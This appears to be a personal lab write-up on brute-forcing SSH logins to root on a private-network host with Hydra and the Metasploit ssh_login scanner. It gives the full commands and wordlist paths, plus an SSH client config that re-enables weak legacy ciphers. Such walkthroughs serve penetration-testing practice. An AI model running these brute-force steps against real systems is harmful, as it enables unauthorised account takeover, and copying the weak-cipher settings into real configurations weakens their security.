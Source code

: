 
# Brute Force Attack


1. Use Hydra

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.68.6 -t 4 -V

```

I encountered an issue in running Hydra. First is the incompatibility with the cipher used, so I edited the /etc/ssh/ssh_config to accept old ciphers


![Alt](usinghydra.png)

From https://medium.com/@sany4sec/ssh-error-in-hydra-while-brute-forcing-b148a61752e2 - I added the following key exchange

```
Host *  
  Ciphers +3des-cbc,aes128-cbc,aes192-cbc,aes256-cbc  
  KexAlgorithms +diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1,diffie-hellman-group14-sha1  
  HostKeyAlgorithms +ssh-rsa,ssh-rsa-cert-v01@openssh.com,ssh-dss,ssh-dss-cert-v01@openssh.com  
  PubkeyAcceptedAlgorithms +ssh-rsa,ssh-rsa-cert-v01@openssh.com,ssh-dss,ssh-dss-cert-v01@openssh.com
```

After that, it runs to Out of Memory Error. It turns out that I need to execute the steps here in this link. As it turns out, libssh doesn't support +,-,^ signs in the config. Luckily it's just been implemented upstream, on the master

https://www.kali.org/docs/general-use/ssh-configuration/

This setting can be changed easily using the `kali-tweaks` tool. Simply:

- Open a terminal and run `kali-tweaks`.
- From there, select the _Hardening_ menu.
- Now you can choose between **Strong Security** _(the default)_ and **Wide Compatibility**.

_Note: This is achieved by creating or deleting the configuration file `/etc/ssh/ssh_config.d/kali-wide-compat.conf`._

![Alt](refissuehydra.png)


The end result

![Alt](hydraresult.png)


==================================================

## Use the metasploit

1. Look for ssh login

```
msfconsole
```

```
search ssh login
```

You can see there the `11 auxiliary/scanner/ssh/ssh_login`

2. Select the `auxiliary/scanner/ssh/ssh_login`
```
use 11
```

3. Check options for settings
```
options
```

![Alt](metasploitsshlogin.png)


4. We will set for now username as `root` and password as `pass_file(option from the options command) /usr/share/wordlists/metasploit/unix_passwords.txt
```
set username root
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
```
5. Set the RHOSTS
```
set rhosts 192.168.68.6
```
6. Set threads
```
set threads 10
```
8. execute `options` one more time to check the settings.

![Alt](metasploitoptions.png)


9. Set verbose to true to check run logs
```
set verbose true
run
```

![Alt](runmsf.png)
